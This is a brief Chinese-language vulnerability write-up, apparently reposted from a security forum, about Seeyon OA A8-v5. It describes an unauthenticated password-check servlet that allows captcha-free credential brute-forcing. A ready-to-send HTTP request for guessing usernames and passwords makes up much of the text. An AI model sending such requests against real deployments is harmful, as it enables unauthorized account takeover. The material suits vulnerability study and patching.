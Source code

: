 # 致远OA A8-v5 无视验证码撞库

> 原文：[https://www.zhihuifly.com/t/topic/3357](https://www.zhihuifly.com/t/topic/3357)

# 致远OA A8-v5 无视验证码撞库

## 一、漏洞简介

致远A8-V5在设计时存在逻辑错误，用户修改密码时对原密码进行了验证，但是验证使用的服务存在未授权访问漏洞，系统对非合法请求的原密码验证功能进行回应，导致了无视验证码，无需login页面进行密码尝试

## 二、漏洞影响

致远OA A8-v5

## 三、复现过程

POST穷举用户和密码代码如下

```
GET /seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=admin&P_2_String=wy123456 HTTP/1.0

Accept: */*

Accept-Language: zh-cn

Referer: [http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame](http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame)

requesttype: AJAX

Content-Type: application/x-www-form-urlencoded

Cookie:

User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko

Host: [www.0-sec.org](http://www.0-sec.org)

DNT: 1 `Proxy-Connection: Keep-Alive` 
```

![image](img/28b7b833eb8bba5b404ac18972077e08.png)